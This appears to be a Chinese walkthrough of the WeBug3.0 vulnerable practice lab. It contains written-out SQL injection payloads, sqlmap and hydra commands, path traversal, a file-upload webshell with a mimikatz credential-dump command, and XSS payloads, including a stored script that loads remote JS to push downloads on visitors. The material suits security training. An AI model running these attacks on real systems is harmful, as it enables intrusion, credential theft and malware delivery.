




# WeBug3.0练习笔记

## 下载部署

* WeBug3.0
  * 下载：[https://pan.baidu.com/s/1Cz\_H0GuudtuINGjSb0ZhPg](https://pan.baidu.com/s/1Cz_H0GuudtuINGjSb0ZhPg)  提取码: yug8

## 第一关-很简单的一个注入

> 普通的GET注入

### 方法一

#### 工具

* Firefox 48.0
* Firefox插件:
  * hackbar

#### 步骤

猜想当前表中列数

```text
// 失败:
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= 2'order by 5 %23

...

// 成功:
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= 2'order by 4 %23

// 结论：表中存在4列属性
```

获取表

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=‘-1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database() %23
```


获取当前数据库名称

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=‘-1' union select 1,database(),3,4 --'
```


获取`flag`表的所有列

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag' %23
```


获取`flag`表的中列的值

```text
  http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid= -1' union select 1,flag,3,4 from flag %23
```


### 方法二

#### 工具

* python 2.7.15
* sqlmap

#### 步骤

获取当前数据库名称

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid --current-db
```


获取当前数据库的所有表

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid -D  pentesterlab --tables
```


获取`flag`表中的值

```text
python sqlmap.py -u http://169.254.91.186/pentest/test/sqli/sqltamp.php?gid=1 -p gid -D pentesterlab -T flag --dump
```


## 第二关-从图片中你能找到什么？

> 从图片中找到有用的信息

### 工具

* CMD
* 360压缩

### 步骤

1. 右键保存图片
2. 修改图片后缀名为zip
3. 解压得到txt文本文件

### 拓展

#### 资源

* 图片: 1.jpg
* 文本: 1.txt

  **工具**

* CMD
* 360压缩

#### 步骤

1. 准备一张图片和一个文本


1. 将`1.txt`压缩成`1.zip`


1. 将`1.jpg`和`1.zip`合并成为`2.jpg`

```text
copy /b 1.jpg+1.zip   2.jpg
```


1. 将`2.jpg`的后缀改为`2.rar`，从`rar`压缩里面可以看到一个`1.txt`文件

改为`zip`的话，在`win10`上有时会出现错误，推荐`rar`


## 第三关-你看到了什么？

> 渗透网站的时候目录也很重要

### 工具

* 御剑
* MD5在线加密解密

### 步骤

获取当前`URL`的部分文件

```text
  //目标链接:
  http://169.254.91.186/pentest/test/san/index33.htm
```


访问`test`


尝试用`md5`加密`test`


访问经过16位加密后的test的网址


## 第四关-告诉你了FLANG是5位数

> 暴力破解登录

### 工具

* Firefox 48.0
* Firefox插件:
  * hackbar
  * hydra
* user.txt
* password.txt

用 hackbar 尝试获取 Post data 值

```text
  http://169.254.91.186/pentest/test/b2e16da5985ee1be/login.php
```


准备存放常见用户名的文本user.txt和存放常见密码的文本passwd.txt

使用user.txt用户名文本和passwd.txt文本文本对无验证码且弱口令的登陆页面进行暴力破解

```text
  hydra -L user.txt -P passwd.txt -o output.log -vV -t 10  -f 169.254.91.186 http-post-form "/pentest/test/b2e16da5985ee1be/login.php:username=^USER^&pwd=^PASS^:login failure"
```


## 第五关-一个优点小小的特殊的注入

> 头部的一个注入

### 工具

* Firefox 48.0
* Firefox 插件:
  * Modify Headers

### 步骤

使用 `Modify Headers` 来进行`HTTP`头注入，常见的有获取客户端`IP`,`http-client-ip`,`x_forwarded_for` 等


### 获取当前数据库名称

```sql
  union select 1,database(),3,4
```


获取当前表所在数据库的所有表

```sql
  union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```


获取flag表所有列

```sql
  union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'flag'
```


获取flag表中某属性的值

```sql
  union select 1,flag,3,4 from flag
```


## 第六关-这关需要RMB购买哦

> 支付问题:用最少的钱去购买到一本书！

### 方法一

#### 步骤

密码在第七关的入口,也可以尝试暴力破解:


输入负数


### 方法二

#### 工具

* Burp Suite

#### 步骤

先开启`Burp Suite`的代理，截断包的发送，然后输入要购买的数量，然后点击购买


在Params处，可以看到发送的包的值


抓包,改包

```text
// 猜想:
  0.1 * 50 = 5
  0.2 * 100 = 20
  5 + 20 = 25
```


解除代理，查看结果


## 第七关-越权

### 工具

* Burp suite

### 步骤

使用入口提供的账号密码登录,点击修改密码

发现在密码修改页面的url中带有name字样


测试修改密码发现没有进行旧密码验证和当前用户判断


修改url


提交前，开启代理，点击提交，修改包，解除代理


## 第八关-CSRF

> 管理员每天晚上十点上线！

### 方法一

#### 工具

* Burp suite

#### 步骤

用`tom`登录,进入主页


点击“更改密码”

> 源php文件无法进行修改密码操作，已更改


源码已更正,允许修改密码,再次进入更改密码界面


开启代理，输入密码：`klklkl`，点击“更改密码”


修改`username`的值为`admin`，然后构造


制作对应的网页，或者test一下


制作网页


### 方法二

看了一眼源码，发现没有对当前用户进行判断，其实直接利用：[http://169.254.91.186/pentest/test/4/change.php?name=admin然后更改密码就行。em](http://169.254.91.186/pentest/test/4/change.php?name=admin然后更改密码就行。em)....

## 第九关-URL跳转

> 能不能从我到百度那边去？

### 工具

* Firefox 48.0
* Firefox插件:
  * hackbar

### 步骤

没头绪，看源码


填写`?url=http://www.baidu.com`


跳转url


> 备注：若出现不安全链接提示，直接关闭代理即可


## 第十关-文件下载

> 根据提示下载需要的文件

### 工具

* 御剑
* burp suite / hackbar

### 步骤

1. 点击进来发现目录不正确，回到上一级：`http://192.168.246.128/pentest/test/6/1d95a598d0bd1a3a/`


1. 发现 6 的目录下有 1 这个目录，但里面是空的


1. 用御剑扫描一下目录，发现 `download.php`


1. 访问 `download.php`：`http://192.168.246.128/pentest/test/6/1/download.php`


1. 点击下载，虽然下载不了，但是发现标题瞩目


1. 标题和数据库有关，联想刚刚扫描到的目录


1. 扫描目录，得到 `config.php`


1. 一般不直接访问，这里直接访问，发现还有语法错误


此时，有两种方法获取账号密码：

#### 方法一

1. 回到下载的地方，抓一下包


1. 根据`config.php`所在的相对路径，修改`value`值：`../../../pentest/test/6/1/db/Config.php`，指向`config.php`


1. 取消代理，获取文件


1. 得到有关账号密码的信息


#### 方法二

1. 因为用的是`get`方式，所以也可以通过修改`url`来达到目的


1. 直接使用`hackbar`构建`url`：`../../../pentest/test/6/1/db/Config.php`，得到`config.php`文件


1. 得到有关账号密码的信息


## 第十一关-我和上一关有点像

> boom，沙卡拉卡！

### 工具

* 御剑
* burp suite / hackbar

### 步骤

1. 看起来和第十关有点类似


1. 用御剑扫描当前目录


1. 继续扫描`db`目录


1. 用的是`post`，那只能改`post`包了


1. 抓包，改包，获得`config.php`


1. 查看`config.php`文件，可以看到类似账号密码的信息


## 第十二关-我系统密码忘记了！

> 请帮我找回在 D 盘下

### 工具

* 菜刀
* mimikatz.exe

### 步骤

1. 用之前的 `tom` 来登陆


1. 主页


1. 发现上传功能，构建 `php`，上传


1. 上传 `go.php` 成功，在 8 目录下的 `upload` 文件夹中


1. 在菜刀空白处右键新建连接


1. 填写 `php` 所在 `web` 树目录即 `php` 文件中 `post` 的值，由于 `go.php` 中填写的是 `ee`，所以这里也是，完成后，添加


1. 选择刚刚创建的 `shell`，右键选择文件管理


1. 可以看到已经可以管理服务器的文件，通过右键可以进行下载等操作


1. 由于题目要求是找回系统账号密码，遵守游戏规则，使用 `mimikatz` 来获取系统账号密码，先上传 `mimikatz` 组件。


1. `mimikatz` 使用起来也非常简单，提取 `Windows` 系统的明文密码只需两行命令：

   提权：`privilege::debug`

   输出系统账号密码：`sekurlsa::logonpasswords`

2. 右键 `shell`，选择虚拟终端，执行命令：`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" > pssword.txt`，执行 `mimikatz`，提权并获取系统账号密码，最后导出到 `txt` 文本上


1. 在文件管理中可以看到 `password.txt` 文件


1. 可以下载或者双击打开查看，成功获取系统账号密码


### 附加

1. 可以在配置中对数据库的信息进行配置，以获取对数据库操作的权限


1. 选择刚刚修改的 `shell`，右键选择数据库管理


## 第十三关-XSS

> 看看你能给我带来什么惊喜

### 工具

* hackbar

### 步骤

1. 主页：`http://192.168.246.128/pentest/test/9/`



1. 666


1. 555


1. 反射型`XSS`，构建`<script>alert(document.cookie)</script>`


## 第十四关-存储型XSS

> suprise！

### 步骤

1. 主页：发现没有检测对输入进行过滤 js


1. 存储型 XSS：构建一个`<script></script>`，这里使用的是`<script src="xxx.js"></script>`，此处为本人的域名下的一个 js 脚本，用以下载文件



1. 此处的 js 操作执行会下载一个东西，由于是存储型 xss，每个访客访问该网址都会默认下载一个东西


## 第十五关-什么？图片上传不了？

> 上传不了图片怎么办？

### 工具

* 御剑
* burp suite

### 步骤

1. 要求上传图片


1. 上传图片


1. 上传非图片格式


1. 验证一下是否上传成功，猜一下是否上传到当前目录，扫描目录，发现 `upload` 文件夹


1. 把上传的文件加入 `DIR.txt` 字典中，然后扫描一下 `upload` 文件夹，是否存在刚刚上传的文件。发现是个坑。显然图片可以经过了验证，但同样拒绝了图片的上传。


1. 图片格式：`Content-Type: image/png`


1. 上传 `php` 文件，把 `Content-Type: application/octet-stream` 修改为 `Content-Type: image/png`


1. 成功上传，准备执行它


1. 成功执行


## 第十六关-明天双十一

> 我从公司网络去剁手了

### 工具

* burp suite

### 步骤

1. 正常模式：`http://192.168.246.128/pentest/test/12/`


1. 点击一下`Go`，发现`url`多了一个`?url=`


1. 点击`pass`则显示


1. 输入`www.taobao.com`看看


1. 显示只允许特定`ip`


1. 输入`10.10.10.10`后则显示


1. 输入`www.taobao.com`，查看`burp`


1. 把`HOST`改成`10.10.10.10`

   `Host`：初始`URL`中的主机和端口。


1. 显示`nonono`


1. 把`Referer`改为`www.taobao.com`

   `HTTP Referer`是`header`的一部分，当浏览器向`web`服务器发送请求的时候，一般会带上`Referer`，告诉服务器我是从哪个页面链接过来的，服务器基此可以获得一些信息用于处理。

   

2. em...


1. 看源码，发现是我的来源应该是`www.baidu.com`


1. em...把`Refer`改为`http://www.baidu.com`，此时`GET`还是`www.taobao.com`，`Host`为`10.10.10.10`


1. em...得到了`flag`


1. 在`flag`中输入：`83242lkjKJ(*&*^*&k0`


## 中级第一关-出来点东西吧

> ../../etc/passwd

### 工具

* 御剑

### 步骤

1. 想看看外面的世界，明显存在某些可以访问其他地方的东西


1. 依次把 `usa.php` 等加入字典，更新 `DIR.txt`。扫描当前目录。发现 `cc` 目录和 `img` 目录。


1. 扫描 `cc` 和 `img` 目录，发现类似配置文件：`config.php`


1. 尝试利用文件任意读取，访问 `config.php`，得到一些信息，标题显示的却是“上一道题目的地址”，真奇怪

   

   显示图片`?country=cc/usa.php`

   

2. 从 `3306` 端口，推测可能是数据库账号密码，访问 `phpmyadmin`，输入刚刚获取的信息，发现登陆失败


## 中级第二关-提交方式是怎么样的啊？

> pass！

### 工具

* 御剑
* burp suite

### 步骤

1. 主页


1. 扫一下目录，发现 config.php,f 直接访问发现错误。


1. 抓包


1. 改包


1. 发现存在任意文件读取漏洞


## 中级第三关-我还是一个注入

> 怎么又 TM 注入！

### 工具

* burp suite

### 步骤

1. 主页

   

2. 试试`X-Forwarder-for`注入，发现没反应

   

3. 试试`Host`头注入

   

4. 得到回显，但是不是 3 列

   

5. 是 4 列

   

6. 构造 `sql` 注入语句，得到当前数据库的所有表

   

7. 拿 `flag` 的值

   

8. 成功

   

9. 拿账号密码

   

## 中级第四关-APK里面有一个flag

> 看看 apk

### 工具

* 360 解压
* android-killer

### 步骤

#### 下载 apk 文件

点击会下载一个 apk 文件


#### 安装 apk 测试

1. 在手机上安装 apk


1. 似乎要点击 300 下


1. 中途退出要重新点击，别问我怎么知道


1. 常规获取


1. 累死人的操作，把机械点击操作交给模拟器吧


1. 看起来是`md5`加密的东西


1. 解密，原来明文是 `flagisme`


#### 使用 android-killer

用`android-killer`打开`test.apk`,对`smali`语法不熟悉，换一下方式


#### 解压 apk

1. 准备使用工具反编译，先把`test.apk`改成`test.zip`，进行解压


1. 解压得到


1. 准备工具，分别解压


1. 把`test.zip`解压出来的文件夹中把`classes.dex`复制到刚刚解压出来的`dex2jar-2.0`文件夹中


1. 执行命令：`d2j-dex2jar classes.dex`

   把`classes.dex`编译成`jar`包


1. 得到`jar`包：`classes-dex2jar.jar`


1. 打开刚刚解压出来的`jd-gui-windows-1.4.0`的文件夹中的`jd-gui.exe`，点击`File`-&gt;`Open File`,打开`classes-dex2jar.jar`


1. 查看`classes-dex2jar.jar`包中的入口文件：`MainActivity.class`，发现关键语句


1. 分析得到，是四个字符串经过`BASE64`加密再拼接在一起的，组合一下字符串：`YWZlOGU5MWI=NGM1NGFkOGViMzA0M2UzNjY=ZGJjYTA1Zg==`拿去进行`BASE64`解密


1. 解密得到：`afe8e91b4c54ad8eb3043e366dbca05f`


### Q&A

Q：为什么图片颜色怪怪的？

A：当前图片是从 xmind 文件中直接拷贝出来的，使用的 xmind 版本为 XMind 8 Update 9，其中 xmind 文件的图片颜色显示正常。

